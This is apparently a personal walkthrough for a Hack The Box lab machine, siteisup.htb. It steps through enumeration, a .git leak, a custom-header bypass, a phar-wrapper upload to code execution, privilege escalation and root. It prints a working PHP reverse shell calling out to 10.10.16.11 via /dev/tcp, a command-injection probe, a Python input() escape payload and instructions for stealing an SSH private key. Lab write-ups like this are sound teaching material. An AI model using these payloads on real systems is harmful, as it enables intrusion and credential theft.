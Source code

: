 1 - Enumerate ports

2 - Enumerate info about the website with whatweb

3 - Try to enumerate useful directories with [[Nmap]] using [[http-enum]]

4 - Once you've discovered the hidden `/dev` directory you can run the http nse script again with `--script-args http-enum.basepath={path}` giving the /dev as value in order to get additional directories in the specified path

5 - Now that you know that the server has the `/dev/.git` folder you can use the tool [[Git-dumper]] to obtain the whole directory into your current folder (Just like a git clone does)

6 - Once you've done all the enumeration you can go into the page and try some attacks on it. A common attack that will come to our mind when we see the page with the funcionality present in it is, at least in order to enumerate a little more, put our ip in the text box and send the request while we're listening at it with [[Netcat]]. Another way to take advantadge of the app is by trying to exploit an [[OS Command Execution]] if you think that maybe the command used to get the source code of the page is [[Curl]], an easy way to try it could be `http://{IP}; whoami`

7 - After trying some attacks you can go on and enumerate subdomains with [[Wfuzz]] or [[GoBuster]]. You'll find the dev.siteisup.htb.

8 - Now, you'll see that when you try to enter into the site with the dev subdomain you'll get the forbidden message, this error can be bypassed by adding the header `Special-Dev: only4dev`. This can be done by adding a `Request header` in the Match and Replace section.

9 - Once you've entered into the website you'll see an upload section and, reading the code, you can notice that if you add the `page` parameter in the url you can request the page given. In order to exploit this you can combine the upload section and the page parameter to, using the zip php wrapper, execute a php payload inside a compressed file.

10 - The way to exploit the website is, firstly, upload a compressed file with a random extension like `.hello` that contains a php reverse shell like the one in [[Common payloads]], secondly send a request to the /upload/{FOLDER}/{COMPRESSED FILE}/{PHP-FILE} with the parameter ?page, this ends like: {IP}/?page=phar://upload/{FOLDER}/{COMPRESSED_FILE}/{PHP_FILE} (You've to keep in mind that the php file of the index page adds the .php extension, so, you don't need to add .php to the {PHP_FILE}), and lastly, obtain the shell in a netcat server. (Important note: look at the usage of the [[phar]] wrapper in this machine)
	10.1 - The previous way to exploit needs to know the blacklisted php expressions in order to make a php payload with an omitted non-blacklisted function. In this machine functions like system(), shell_exec() and exec() are prohibited, so, in order to exploit this we will use the tool [[Dfunc Bypasser]] to automate the search of a legal function to get into the machine
	10.2 - The named tool requires us to execute the function phpinfo() in order to get a info disclousure of all the blacklist in the server
	10.3 - Important note about the app: You've to specify the headers used by the app to bypass the fobidden message, this can be done by adding `headers = {'Special-Dev': 'only4dev'}` in all the requests module calls
	10.4 - The reason behind uploading a compressed file is that, because the app tries to delete the file, you've to give the app something non-readable to make the app crash and skip the step of removing the file from /uploads

11 - Now that you know that the proc_open function is open to use you can try to upload a reverse-shell using this function. eg.:

```
<?php
	$descriptorspec = array(
   		0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   		1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   		2 => array("pipe", "w")   // stderr is a pipe that the child will write to
	);
	
	$shell = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.11/443 0>&1'";
	
	$process = proc_open($shell, $descriptorspec, $pipes);
?>
```

12 - Once you've done everything listed above, you are able to start pivoting and doing privilege escalation. The first thing you've to do is try to enumerate files with SUID in order to change your user (www-data) to developer. The way to do the pivoting is exploit the file stored in /home/developer/dev. This file can be exploited because the binary executes a python2 file that has the input() function, function that executes the code entered instead of only reading it. The particular way to exploit this is `__import__('os').system('bash -p')`.

13 - Now that you're inside of the developer user you can steal the id_rsa file in order to use it to gain the gid of the previously named user via ssh. In order to do this you've to cat out the file, copy the content, paste it in a file in your computer, use it along with the [[SSH 1]] tool: `ssh -i {FILE} {USER}@{IP}`

14 - Now you only have to gain root access, this can be done by, firstly enumerating with `sudo -l` and once you've seen the `easy-install` exploiting it with [[GTFOBins]]. You've to look for the binary and look for how to exploit it with the SUID permisson